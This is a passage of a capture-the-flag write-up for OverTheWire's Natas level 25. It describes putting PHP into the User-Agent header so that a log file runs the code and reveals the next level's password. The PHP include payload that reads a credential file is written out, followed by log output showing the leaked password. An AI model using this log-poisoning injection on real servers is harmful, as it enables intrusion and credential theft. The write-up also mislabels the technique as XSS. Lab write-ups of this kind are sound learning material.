 Get around the check for &#8220;natas_webpass&#8221;.

Stored XSS is likely possible on the log file using the User-Agent string, since that gets saved. Injecting some PHP that reads &#8220;natas_webpass&#8221; should bypass the check on our variable.

Write &#8220;User-Agent: <?php include(&#8220;/etc/natas_webpass/natas26&#8243;); ?>&#8221; into the HTTP header using Burp Repeater:

{% highlight plain_text%}
[19.09.2019 12::52:19] Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 "Directory traversal attempt! fixing request."
[19.09.2019 12::54:32] Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 "Directory traversal attempt! fixing request."
[19.09.2019 12::56:21] Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 "Directory traversal attempt! fixing request."
[19.09.2019 13::05:45] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
33 "Directory traversal attempt! fixing request."
{% endhighlight %}

Success!!

&nbsp;